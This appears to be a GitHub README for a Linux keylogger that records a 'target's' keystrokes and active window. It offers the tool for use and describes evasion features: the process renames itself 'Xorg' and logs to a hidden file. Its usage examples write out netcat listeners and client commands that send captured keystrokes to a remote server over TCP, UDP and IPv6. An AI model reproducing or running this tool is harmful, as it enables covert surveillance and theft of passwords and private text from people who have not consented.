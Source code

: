 # Simple_Local&Remote_Keylogger<br>

##DESCRIPTION

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.
```
Usage: #./slrk [OPTIONS]
```

##OPTIONS
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

##EXAMPLE

	###[TCP]
	```
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	###[UDP]
	```
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	###[IPv6]
	```
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	```

